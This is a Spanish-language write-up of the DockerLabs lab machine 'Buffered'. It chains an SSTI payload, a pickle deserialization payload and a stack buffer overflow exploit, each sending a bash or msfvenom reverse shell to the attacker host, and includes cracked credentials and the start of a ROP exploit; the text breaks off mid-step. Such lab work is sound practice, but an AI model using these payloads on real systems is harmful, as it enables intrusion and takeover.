







Máquina **Buffered** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [rxffsec](https://rxffsec.github.io/)

Dificultad: Dificil



# Reconocimiento

Comenzamos con un escaneo de `nmap` el cual nos permita saber los puertos abiertos de la máquina:

```css
nmap -p- --open --min-rate 5000 -sSCV -n -Pn -vvv -oN targeted 172.17.0.2
```

```css
# Nmap 7.95 scan initiated Tue Feb 18 21:30:58 2025 as: nmap -p- --open --min-rate 5000 -sSCV -n -Pn -vvv -oN targeted 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2025-02-18 21:30:58 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://buffered.dl/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 18 21:31:06 2025 -- 1 IP address (1 host up) scanned in 8.37 seconds
```

como podemos ver solo hay un puerto abierto, además también podemos ver un dominio el cual agregaremos al archivo `/etc/hosts` para que nuestra computadora sepa a donde tiene que apuntar con ese dominio:

```css
<IP> buffered.dl
```

### Puerto 80

Al entrar a la página web del puerto 80 no vemos nada muy interesante pero si una posible lista de usuarios:

```css
Wilson Winters:wilson@buffered.dl
Christine Ross:christine@buffered.dl
Tyler Miller:tyler@buffered.dl 
```

Pasaremos directamente a usar `gobuster` para enumerar subdominios ya que el dominio principal no tiene nada mas que eso:

```css
gobuster vhost -u "http://buffered.dl/" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://buffered.dl/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dashboard.buffered.dl Status: 200 [Size: 5666]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```

teniendo ese subdominio, lo agregamos en el archivo `/etc/hosts` de la siguiente manera:

```css
<IP> buffered.dl dashboard.buffered.dl
```

Si revisamos el subdominio, podremos ver que podemos registrarnos, por lo que nos registramos e iniciamos sesión. Al iniciar sesión no hay nada interesante, por lo que podemos intentar ver que pasa por detrás con BurpSuite. Iniciamos sesión y dejamos pasar la primer petición, y al llegar a la siguiente:



cambiamos el mail con el que nos registramos por `admin@buffered.dl`, esto hará que nos iniciemos como admin ya que la petición se hace por GET en vez de POST. Una vez estamos como admin, podremos ver un buscador, y si probamos distintos payloads podemos ver que es vulnerable a `SSTI`, ya que al poner `{{7*7}}` nos dice "49":



con esto ya podemos ejecutar comandos y entrar en la máquina.

# Intrusión

Para ejecutar comandos, simplemente nos fijamos en [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) y vemos que podemos ejecutar comandos con lo siguiente:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/id').read() }}
```



ahora simplemente nos ponemos en escucha con netcat por el puerto 443 y enviamos una consola interactiva:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}
```

# Escalada de Privilegios

### Wilson

Una vez estamos como wilson, la variable PATH está mal puesta, ya que si nos fijamos veremos que es la siguiente:

```css
wilson@90accd52b14f:~$ echo $PATH
echo $PATH
/home/wilson/.local/bin
wilson@90accd52b14f:~$ 
```

viendo esto pondremos la variable PATH de nuestro host:

```css
export PATH=/root/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

y ahora si podremos hacer el tratamiento de la tty.

Estando dentro, revisamos los puertos abiertos de la máquina con `ss -tulunp`  y podremos ver que el puerto 5555 está abierto. Además, podemos saber que es una web ya que si ejecutamos curl desde la máquina a `127.0.0.1:5555` veremos código html.

### Port Forwarding

Como estamos dentro de la maquina, utilizaremos [`chisel`](https://github.com/jpillora/chisel) para que el puerto 5555 de la máquina sea el 5555 de nuestro host:

```css
# Máquina atacante
./chisel server --reverse -p 2323
# Máquina victima
./chisel client 172.17.0.1:2323 R:5555:127.0.0.1:5555
```

una vez hecho podremos acceder al puerto 5555 de la máquina victima poniendo "127.0.0.1:5555" en el navegador.

### Puerto 5555

Al entrar en la página, podemos ver como hay un "niceadmin":



el problema es que no contamos con credenciales válidas. Luego de revisar un rato, encuentro un script de python en `~/dashboard/.pwgen.py`, el cual si lo revisamos veremos lo siguiente:

```css
import random

def generate_password():
    first_name = input("Enter your first name: ")
    last_name = input("Enter your last name: ")
    password = f"{first_name[0].lower()}.{last_name.lower()}@buffered_"
    number = random.randint(0, 999999)
    formatted_number = f"{number:06d}" # add padding to the left; i.e. 000001
    password += formatted_number
    return password

# Generate the password
generated_password = generate_password()
print("Generated password:", generated_password)
```

al parecer el código genera contraseñas como estas:

```css
j.doe@buffered_xxxxxx
```

Sabiendo esto podriamos intentar generar la contraseña de el usuario christine o tyler pero no podriamos saber los números que irian al final ya que es totalmente aleatorio, por lo que podriamos probar en buscar las credenciales de la base de datos mysql que está corriendo para ver si asi encontramos el hash de algún usuario. Para esto filtro por "mysql" en el archivo `app.py` que se encuentra en `~/dashboard`:

```css
wilson@90accd52b14f:~$ cat dashboard/app.py  | grep -i "mysql"
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'db_manager'
app.config['MYSQL_PASSWORD'] = 'Heig9At,'
app.config['MYSQL_DB'] = 'myflaskapp'
wilson@90accd52b14f:~$ 
```

ya tenemos credenciales para la base de datos, por lo que nos conectaremos de la siguiente manera:

```css
mysql -h 127.0.0.1 -u db_manager -pHeig9At,
```

Una vez dentro, listamos las bases de datos con `show databases;`  y solo vemos una llamada "myflaskapp". Ahora seleccionamos la base de datos con `use myflaskapp;` y listamos las tablas con `show tables;`. De la base de datos que encontramos, la única tabla que nos interesa es la siguiente:

```css
mysql> select*from users_old;

admin@buffered.dl     | $2y$10$r0547dSzx5IU3aMqifomSOxiksd18H9uw6jtUABG1gaXm4i536SWG
wilson@buffered.dl    | $2y$10$z2.Hbp46qdxtejA73XZyv.ScuBc4x79YytjeGpN8twSB2zFRdfrsq tyler@buffered.dl     | $2y$10$FJCGWarfD8uN8wX2ynyrLeBmPwFygBkV9DBt5A67RloYZFQkPeNDS 
christine@buffered.dl | $2y$10$QYb/E/Rby6El2m4yfhfKf.eyX2.fz2zzNI8.xT8ihfwfKFT2WlDya

mysql>
```

perfecto, ahora que tenemos un hash, debemos elegir que usuario generar contraseñas para intentar romperla, y luego de revisar los procesos decido que el usuario christine es la mejor opcion ya que es el único que está ejecutando algo en segundo plano (posiblemente la web):

```css
wilson@90accd52b14f:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
christiine     318  0.0  1.1 535400 43812 ?        Ss   Feb18   0:04 python /home/christine/.site/APP_3411/app.py
wilson       850  0.0  0.1   8332  4280 pts/0    R+   00:44   0:00 ps aux
wilson@90accd52b14f:~$ 
```

Ahora como sabemos que las contraseñas siempre empiezan igual, en el caso de christine seria "c.ross@buffered_xxxxxx" (ross porque como vimos antes en la página principal, christine tenia el apellido ross), y solo generaremos los números usando `crunch`:

```css
crunch 22 22 0123456789 -t c.ross@buffered_@@@@@@ > wordlist
```

luego metemos el hash en un archivo y lo crackeamos con john:

```css
john -w=./wordlist hash
```

```css
❯ john -w=./wordlist hash
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
c.ross@buffered_001337 (christine)
1g 0:00:00:23 DONE (2025-02-19 04:11) 0.04187g/s 56.53p/s 56.53c/s 56.53C/s c.ross@buffered_001333..c.ross@buffered_001350
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~ ❯
```

y ya tenemos credenciales:

```css
christine:c.ross@buffered_001337
```

### NiceAdmin

Una vez logeados, podremos ver que hay un botón llamado "download report", el cual si lo presionamos nos descarga un archivo llamado "logins.txt". Si revisamos el código con las devtools del navegador, podremos ver que selecciona el archivo como "logins.txt" y podemos probar en cambiarlo por otro archivo, como por ejemplo `/etc/passwd`:



una vez descargado el archivo, lo leemos y podremos ver que efectivamente descargamos el archivo `passwd`, lo que significa que podriamos descargar cualquier archivo al cual no tengamos acceso como wilson pero si como christine (ya que christine es el usuario que ejecuta la web). En este caso, el único archivo que nos es de utilidad es `/home/christine/.site/APP_3411/app.py`, ya que como vimos en los procesos ese es la misma página que se encuentra en el puerto 5555. Una vez descargado, podremos visualizar el código de python de la página, pero no hay nada muy llamativo mas que al final, ya que vemos que usa `pickle` (el cual tambien importa al principio del archivo) para deserializar datos en base64 pasados con el parametro "mydata". Luego de buscar en [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html?highlight=pickle#pickle), encuentro el siguiente código que aprovecha la deserializacion de pickle:

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```

solo que haremos unas modificaciones para que funcione bien:

```css
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("/bin/bash -c '/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1'",))
print(base64.b64encode(pickle.dumps(P())).decode('utf-8'))
```

Luego de ejecutarlo, nos dará el siguiente string en base64:

```css
gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDsvYmluL2Jhc2ggLWMgJy9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJ5SFlFKULg==
```

escuchamos por el puerto 443 con netcat:

```css
sudo nc -nlvp 443
```

y enviamos los datos para recibir una shell:

```css
curl -X POST http://127.0.0.1:5555/submit_review -F "product_name = hacked" -F "review_text = hacked" -F "rating = 1" -F "mydata= gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDsvYmluL2Jhc2ggLWMgJy9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJ5SFlFKULg=="
```

una vez lo enviemos, habremos escalado al usuario **christine**.

### Christine

Si ejecutamos `id` veremos que estamos en el grupo ftp, por lo que procederemos a buscar archivos pertenecientes a ese grupo:

```css
find / -group "ftp" 2>/dev/null
```

```css
christine@ae4f7906fed7:~$ find / -group "ftp" 2>/dev/null
/ftp
christine@ae4f7906fed7:~$
```

solo vemos un directorio.

Al entrar en `/ftp` podremos ver un binario llamado "bufferbot", pero no podemos ejecutarlo, ya que intenta abrir un puerto pero parece que ya está en uso, por lo que lo pasaremos a nuestra máquina para analizarlo.

Una vez tenemos el binario, lo ejecutamos y veremos un mensaje de que está esperando conexiones por el puerto 9000, por lo que nos conectaremos con netcat para ver que hay en el:

```css
nc 127.0.0.1 9000
```

```css
❯ nc 127.0.0.1 9000
⠀⣁⠒⣠⣌⢓⡙⣿⣿⡁⠨⢉⣐⠢⣸⣿⣿⣿⣿⣾⣿⣷⣾⣿⣯⣿⣿⣿⣿⣇⠂⣂⡋⠥⠊⣿⣿⢏⡞⣫⣄⠐⢀⡀
⣠⣶⣿⣿⣿⠌⠷⠹⣿⡿⡠⢘⣫⣾⣿⣿⣿⡿⢛⣫⣭⡶⠶⣭⣍⡛⢿⣿⣿⣿⣿⣝⡁⢄⢺⣿⠿⠼⠅⣿⣿⣿⣶⣦
⣿⣿⣿⣿⡿⡘⣱⣟⡂⠜⣴⣿⣿⣿⣿⡿⣩⣎⣿⣟⢪⢇⡰⣗⣿⣿⣇⣌⠻⣿⣿⣿⣿⣦⠳⢒⣿⣎⢃⢿⣿⣿⣿⣿
⣿⣿⣿⣿⠣⠰⣾⡶⠉⣼⣿⣿⣿⣿⢏⣾⡿⢿⣿⣮⢘⣆⠱⡂⣵⣿⣿⢿⣷⡙⣿⣿⣿⣿⣧⠫⢶⣷⠆⠜⣿⣿⢿⣿
⢿⣯⣪⣿⡄⢘⣽⣭⡆⣿⣿⣿⣿⡟⣼⣿⣷⢾⠳⠟⣹⢿⡶⣿⠻⠾⣻⣿⣿⣧⢹⣿⣿⣿⣿⢸⣭⣯⡇⢢⣿⣯⢪⣿
⢌⢿⣿⣿⣷⡈⢵⢿⣗⡸⣿⣿⣿⡇⠛⣿⡓⠁⢀⣀⡀⠈⠉⠀⣀⡀⠀⢩⡟⠋⢸⣿⣿⣿⢇⣺⡿⡮⢁⣾⣿⣿⣿⢏
⠹⣆⡛⢿⣿⣿⡄⢋⡏⠷⣈⠻⣿⣷⡀⣿⠇⠀⢾⣿⡿⠀⠀⢸⣿⡿⠀⢸⡀⠀⣼⣿⠟⣁⡺⢩⣝⢠⣾⣿⣿⠟⣁⢮
⣄⠈⠊⣢⡼⡶⣶⣿⣧⣦⡁⢋⠖⡭⢡⠄⠞⠄⣄⠈⠀⠀⠀⠀⠈⣀⡄⠢⠁⡌⢭⡲⡝⠊⣠⣮⣿⣶⡶⡲⣤⡛⠊⠂
⣭⡅⢺⣿⣇⣁⣼⣿⣶⣿⣷⡀⠘⠀⢥⣄⠀⠀⠋⠀⢿⠀⠀⢾⠀⠸⠁⠀⡀⣘⡁⠁⢀⣾⣿⣷⣿⣿⣌⣁⣿⣿⠃⣬
⢛⣡⣟⣿⣿⣏⣎⣿⡿⢿⣯⣷⢹⣆⠉⠻⣯⣖⣤⠄⣈⣀⣀⣀⠠⣤⣲⣼⠟⠁⢠⡟⡼⣭⣿⢿⣿⣯⣏⣿⣿⣟⣧⣙
⣿⣻⣿⣿⣻⣟⣷⣿⣿⣷⣶⢸⢸⣿⣿⣆⡄⡉⠛⠻⠿⠹⠏⠽⠛⠛⢉⢠⣰⣶⣿⣇⠇⢶⣾⣿⣿⣿⣿⣿⣻⣿⣿⣻
⢯⣽⣾⡟⣿⣿⣻⠱⣥⢸⠀⢀⣺⣿⢿⣷⣕⣹⣾⣧⣴⣶⣶⣦⣴⣷⣯⣨⢾⣿⣿⣿⡄⠈⠉⢮⡷⡋⣿⣿⣟⢿⣿⣭
⠧⡞⠩⠅⣚⣛⠃⢐⣒⠠⠂⣬⣿⡿⠾⢷⣿⣿⣿⣿⡿⣟⣛⢿⣿⣿⣿⣿⣿⠷⢿⣿⡶⠐⠨⢒⡒⠑⢛⣛⡓⠭⢑⢢
⣠⣤⣀⡀⠀⠀⠀⠀⠀⠀⠸⣿⣯⢪⣿⡵⣽⣿⣿⣽⡜⣾⣷⢱⢫⣿⣿⡟⡟⣽⣝⡞⣿⣆⠀⠀⠀⠀⠀⠀⠀⢀⣀⣤
⣩⣉⣓⠻⠿⡖⠠⠄⠀⠀⠴⣿⣏⢮⣉⡵⣻⣿⣿⣿⣾⣢⣴⣪⣿⣿⣿⣧⡣⣙⡡⣣⣿⣆⠀⠀⠀⠤⠐⣲⠿⢛⣊⣉
⣛⣛⠺⢿⣶⡤⣀⠀⠀⠀⠈⢿⠟⣿⣶⣯⢿⣟⡻⠿⠭⠭⠭⠭⠿⠟⣻⡿⢵⣷⣿⠻⢻⠃⠀⠀⠀⢀⡠⢴⣾⠿⢒⣛
⡕⡪⢝⢶⡬⡉⠀⠀⠀⠀⠀⢀⡙⠏⠓⠈⣁⣀⣤⣤⣤⣤⣤⣤⣤⣀⣀⣈⠉⠚⠩⢟⡁⠀⢀⠀⠀⠁⠀⡩⣴⢾⡫⣕
	[ B u f f e r b o t ]
hola

Message received
❯
```

al parecer no tiene nada interesante, pero podemos intentar enviar muchos datos para ver que pasa:

```css
python2 -c 'print "A"*3000' | nc 127.0.0.1 9000
```

resultado:

```css
❯ ./bufferbot
Server is listening on port 9000
Buffer content: hola

Buffer content: AAAAAAAAAAAAAAAAAAAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault (core dumped)  ./bufferbot
```

perfecto, estamos frente a un *buffer overflow*.

### Buffer Overflow 1

Si ejecutamos `file` sobre el binario, veremos que es un ejecutable de 32 bits y además con `checksec` podemos saber que no tiene protecciones, por lo que el stack es ejecutable y podemos tener en cuenta eso. Con `gdb` listamos las funciones y vemos una llamada "jmp_esp":

```css
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  setsockopt@plt
0x08049040  __libc_start_main@plt
0x08049050  printf@plt
0x08049060  htons@plt
0x08049070  perror@plt
0x08049080  accept@plt
0x08049090  strcpy@plt
0x080490a0  exit@plt
0x080490b0  strlen@plt
0x080490c0  bind@plt
0x080490d0  listen@plt
0x080490e0  socket@plt
0x080490f0  inet_addr@plt
0x08049100  recv@plt
0x08049110  close@plt
0x08049120  send@plt
0x08049130  _start
0x0804915d  __wrap_main
0x08049170  _dl_relocate_static_pie
0x08049180  __x86.get_pc_thunk.bx
0x08049190  deregister_tm_clones
0x080491d0  register_tm_clones
0x08049210  __do_global_dtors_aux
0x08049240  frame_dummy
0x08049246  vulnerable_function
0x0804928f  handle_client
0x08049393  main
0x0804954c  jmp_esp <--- Esta funcion nos interesa ya que gracias a esta podremos ejecutar una reverse shell mas fácil
0x0804955e  __x86.get_pc_thunk.ax
0x08049564  _fini
pwndbg> 
```

El binario es de 32 bits y no tiene protecciones, lo que significa que la pila es ejecutable. Esto nos permite inyectar y ejecutar código arbitrario. Nuestro objetivo es tomar el control del registro EIP, ya que este determina la próxima instrucción a ejecutar. Para esto, aprovechamos un buffer overflow, sobrescribiendo EIP con la dirección de un gadget `jmp esp`. 

¿Por qué `jmp esp`? Porque este gadget redirige la ejecución al registro ESP, y como todo lo que coloquemos después de sobreescribir EIP se almacenará en la pila, esto nos permite colocar ahí un shellcode y ejecutarlo cuando `jmp esp` transfiera el control a ESP.

Para hacer esto debemos crear un exploit en python, y utilizaremos la libreria "socket", ya que la máquina no tiene pip ni "pwntools". Primero haremos la base del exploit:

```python
import socket


host = '127.0.0.1'
port = 9000
offset = ?

junk = b"A"*offset

jmp_esp = ?


shellcode = ?

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

Tenemos varias cosas definidas y además lo que necesitamos saber, ya que necesitamos unos datos antes de hacer el exploit, como el offset (la cantidad de basura que tenemos que poner antes de llegar al EIP), la dirección del gadget  `jmp_esp`, y un shellcode (el cual generaremos con `msfvenom`).

### Obtener el offset

Para obtener el offset, utilizaremos la herramienta `pattern_create.rb` y `pattern_offset.rb` de metasploit. La primera nos genera una cadena, la cual al enviarla y ver los resultados podremos pasarla a `pattern_offset.rb` y nos dirá el offset del binario:

Primero ejecutamos `gdb` y le pasamos el binario:

```css
gdb -q ./bufferbot
```

luego ejecutamos `pattern_create.rb` de la siguiente manera:

```css
pattern_create.rb -l 1400 | nc 127.0.0.1 9000
```

una vez lo enviemos, podremos ver en `gdb` que el programa ha crasheado, y en el registro EIP se encuentra lo siguiente:

```css
EIP  0x36734235 ('5Bs6')
```

con "5Bs6" lo pasamos a `pattern_offset.rb` y nos dirá el offset:

```css
❯ pattern_offset.rb -q 5Bs6
[*] Exact match at offset 1337
❯ 
```

perfecto, ya podemos actualizar el exploit:

```python
import socket


host = '127.0.0.1'
port = 9000
offset = 1337

junk = b"A"*offset

jmp_esp = ?


shellcode = ?

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

Para obtener la dirección de el gadget `jmp esp` simplemente utilizaremos la herramienta `ropper`:

```css
❯ ropper -f ./bufferbot --search "jmp esp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: ./bufferbot
0x08049559: jmp esp; 

❯ 
```

y ya tenemos la dirección, por lo cual podemos actualizar el exploit:

```python
import socket


host = '127.0.0.1'
port = 9000
offset = 1337

junk = b"A"*offset

jmp_esp = b"\x59\x95\x04\x08"


shellcode = ?

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

finalmente, generamos un shellcode con `msfvenom` y actualizamos el exploit:

```css
msfvenom -p linux/x86/shell_reverse_tcp --platform linux -a x86 LHOST=172.17.0.1 LPORT=7070 -f c -e x86/shikata_ga_nai EXITFUNC=thread
```

Exploit final:

```python
import socket


host = '127.0.0.1'
port = 9000
offset = 1337

junk = b"A"*offset

jmp_esp = b"\x59\x95\x04\x08"


shellcode = b"\xdb\xc0\xd9\x74\x24\xf4\x58\xbb\xc9\x9b\x83\xbb\x29\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc\x03\x91\x88\x61\x4e\x10\x74\x92\x52\x01\xc9\x0e\xff\xa7\x44\x51\x4f\xc1\x9b\x12\x23\x54\x94\x2c\x89\xe6\x9d\x2b\xe8\x8e\xb1\xdd\x0a\x4f\xa2\xdf\x0a\x54\xac\x69\xeb\xda\xb6\x39\xbd\x49\x84\xb9\xb4\x8c\x27\x3d\x94\x26\xd6\x11\x6a\xde\x4e\x41\xa3\x7c\xe6\x14\x58\xd2\xab\xaf\x7e\x62\x40\x7d\x00"

payload = junk + jmp_esp + b"\x90"*32 + shellcode + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(payload) 
data = ''
data = s.recv(1024).decode()
print(data)
```

Perfecto, ahora solo nos queda escuchar en el puerto 7070 con netcat y ejecutar el exploit en la máquina víctima. Una vez ejecutado seremos el usuario **tyler**.

### Tyler

### Buffer Overflow 2

Siendo el usuario Tyler, podemos ver un binario con el bit suid activado en la home de este. Al ejecutarlo, parece ser una shell (además de que se llama shell) pero no parece hacer mucho, ya que si ejecutamos `id` no nos dice realmente si somos root, nuevamente si ponemos muchos datos, podremos ver que es vulnerable a buffer overflow.

Pasamos el binario a nuestra máquina, y nos ponemos como root, ya que el binario necesita ejecutar "setuid(0)" y no puede si lo ejecutamos como un usuario normal. Primeramente podemos ver varias cosas:

• Con `checksec` vemos que el binario tiene NX como protección, lo que significa que la pila no es ejecutable y no podemos hacer una explotación como la anterior, y solo nos quedan 3 chances:

 1: Apuntar a una función interesante que pueda por ejemplo ejecutarnos una shell

 2: Buffer overflow de tipo ret2libc

 3: Buffer Overflow de tipo ROP(Return-Oriented Programming)

En este caso haremos un ROP, ya que es lo mas fácil para este binario.

Base del exploit:

```python
import subprocess
import struct


def p64(num):
    return struct.pack("<Q", num)        

def exploit():

  binario = ["./shell"]

  offset = ?
  junk = b"A"*offset
  


  pop_r13 = ?
  _x2 = ?
  system = ?
  tmp_shell = b"/tmp/sh\x00"
  

  payload = junk + tmp_shell + pop_r13  + system + _x2

  p = subprocess.Popen(
          binario, stdin=subprocess.PIPE
  )
  p.stdin.write(payload + b"\n")
  p.stdin.flush()

  p.wait()

if __name__ == '__main__':
    exploit()
```

Esta vez, en lugar de conectarnos a un servicio remoto, ejecutaremos el binario localmente y lo explotaremos directamente. En un principio lo único que conocemos es "tmp_shell", ya que es lo que vamos a ejecutar al explotar el binario (también podriamos ejecutar `/bin/sh` pero yo ejecutaré un script). Además definimos una función `p64()` la cual se encargará en convertir direcciones en una representación binaria de 64 bits en little-endian, para que sean interpretadas correctamente por la arquitectura.

##### ¿Por que necesitamos estos datos?

En este tipo de buffer overflow, aprovechamos algunas instrucciones que se encuentran en el binario, que en este caso están en la función `_x2`:


como podemos ver en la imagen, hay una instrucción que mueve el contenido de RSP a el registro RDI, esto lo necesitamos porque lo que queremos hacer es ejecutar `system()` de la siguiente manera:

```css
system("/tmp/sh")
```

la función `system` busca un argumento en los siguientes registros y con ese orden: rdi, rsi, rdx, rcx, r8, r9.

Y como vemos en la instrucción, esta moviendo el contenido del registro RSP (del cual tenemos el control ya que seria como el ESP pero en 64 bits) a el registro RDI, por lo que ahi podriamos meter nuestra cadena de `/tmp/sh` para que ejecute ese script. Además, hace un salto a el registro R13, y da la casualidad de que el binario también tiene un gadget `POP r13`, el cual toma el valor que se encuentra en el tope de la pila, que será `system()` y lo meterá en el registro R13, por lo que ahí habremos preparado la función y cuando la llamemos, moverá lo que se encuentra en RSP (que será nuestra cadena de `/tmp/sh`) al registro RDI, y luego saltará a R13, en donde estará system (el cual buscará el primer argumento en RDI) y ejecutará nuestro script, ya que en RDI estará nuestra cadena.

Una vez explicado todo eso, pasaremos a encontrar las direcciónes necesarias, lo cual es bastante sencillo realmente.

#### Calcular el offset

Para calcular el offset, debemos hacer exactamente lo mismo que la vez pasada, por lo que no voy a explicarlo. Esta vez es de `136`, pero debemos restarle la cadena `/tmp/sh` para que esa sea la que se encuentre en RSP al momento de la explotación, osea que en total seria `128`.

#### Obtener las direcciones de _x2, system y pop_r13

Para obtener las direcciones de `_x2` y `system` se puede hacer con un mismo comando:

```css
❯ objdump -D ./shell | grep -E "system|_x2"
0000000000401040 <system@plt>:
  401040:	ff 25 c2 2f 00 00    	jmp    *0x2fc2(%rip)        # 404008 <system@GLIBC_2.2.5>
  401491:	e8 aa fb ff ff       	call   401040 <system@plt>
00000000004014a3 <_x2>:
❯ 
```

en este caso, las direcciónes serian las siguientes:

`_x2 = 0x4014a3`

`system = 0x401040`

Para encontrar la dirección de `pop r13`, simplemente volvemos a utilizar `ropper`:

```css
❯ ropper -f ./shell  --search "pop r13"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
